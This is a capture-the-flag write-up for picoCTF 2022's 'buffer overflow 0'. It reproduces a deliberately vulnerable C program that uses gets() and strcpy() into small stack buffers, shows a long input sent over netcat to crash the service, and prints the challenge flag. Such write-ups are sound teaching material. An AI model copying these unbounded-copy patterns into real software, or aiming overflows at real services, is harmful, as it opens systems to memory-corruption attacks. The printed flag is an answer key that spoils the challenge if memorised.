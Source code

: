 # picoCTF 2022: Binary Exploitation: buffer overflow 0

## Introduction
**Challenge:** [buffer overflow 0](https://play.picoctf.org/practice/challenge/257?originalEvent=70&page=1)

**Category:** Binary Exploitation

**Description:**

Smash the stack.
Let's start off simple, can you overflow the correct buffer? The program is available [here](https://artifacts.picoctf.net/c/521/vuln). You can view the source [here](https://artifacts.picoctf.net/c/521/vuln.c). And connect with it using:
```bash
nc saturn.picoctf.net 65355
```

## Solution
Here we've been provided with the binary executable and the source code. Let's take a look at the source code.
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <signal.h>

#define FLAGSIZE_MAX 64

char flag[FLAGSIZE_MAX];

void sigsegv_handler(int sig) {
  printf("%s\n", flag);
  fflush(stdout);
  exit(1);
}

void vuln(char *input){
  char buf2[16];
  strcpy(buf2, input);
}

int main(int argc, char **argv){

  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(flag,FLAGSIZE_MAX,f);
  signal(SIGSEGV, sigsegv_handler); // Set up signal handler

  gid_t gid = getegid();
  setresgid(gid, gid, gid);


  printf("Input: ");
  fflush(stdout);
  char buf1[100];
  gets(buf1);
  vuln(buf1);
  printf("The program will exit now\n");
  return 0;
}
```
The one thing that I noticed is that we are printing the flag on a segmentation fault, which is an error raised by memory-protected hardware whenever it tries to access a memory address that is either restricted or does not exist. If the flag `printf()` resides within `sigsegv_handler()`, then we can safely assume that we must figure out how to trigger a segmentation fault.
```c
void sigsegv_handler(int sig) {
  printf("%s\n", flag);
  fflush(stdout);
  exit(1);
}
```
We see that on line 40, the horrible `gets()` is called, and reads buf1 (the user input) onto the stack. This function sucks, as it will write the user’s input to the stack without regard to its allocated length. The user can simply overflow this length, and the program will pass their input into the `vuln()` function to trigger a segmentation fault:
```c
void vuln(char *input){
  char buf2[16];
  strcpy(buf2, input);
}

gets(buf1); 
vuln(buf1);
```
Let's run the program and see if we get the flag if we did a segmentation fault:
```bash
nc saturn.picoctf.net 65355
Input: aaaaaaaaaaaaaaaaaaaaaaaaaaa
picoCTF{ov3rfl0ws_ar3nt_that_bad_34d6b87f}
```
Yeah, we got the flag!

## Conclusion
Basically what we did was we did a buffer overflow. That means we have exceeded the size of a buffer.

**Flag:** `picoCTF{ov3rfl0ws_ar3nt_that_bad_34d6b87f}`